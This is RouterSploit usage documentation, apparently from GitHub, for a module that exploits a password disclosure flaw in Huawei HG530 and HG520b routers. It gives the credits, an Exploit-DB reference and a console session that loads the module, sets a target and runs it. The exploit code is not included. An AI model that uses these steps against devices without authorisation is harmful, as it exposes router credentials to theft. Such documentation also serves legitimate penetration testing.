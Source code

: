 # Huawei HG530 & HG520b Password Disclosure

## Description
Module exploits password disclosure vulnerability in Huawei HG530 and HG520b devices.If the target is vulnerable it allows to read credentials.

## Authors
* Fady Mohamed Osman (@fady_osman) # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/37424/](https://www.exploit-db.com/exploits/37424/)

## Vulnerable devices
* Huawei Home Gateway HG530
* Huawei Home Gateway HG520b

## Usage
```
rsf > use exploits/huawei/hg530_hg520b_password_disclosure
rsf (Huawei HG530 & HG520b Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


rsf (Huawei HG530 & HG520b Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Huawei HG530 & HG520b Password Disclosure) > run
[*] Running module...
```
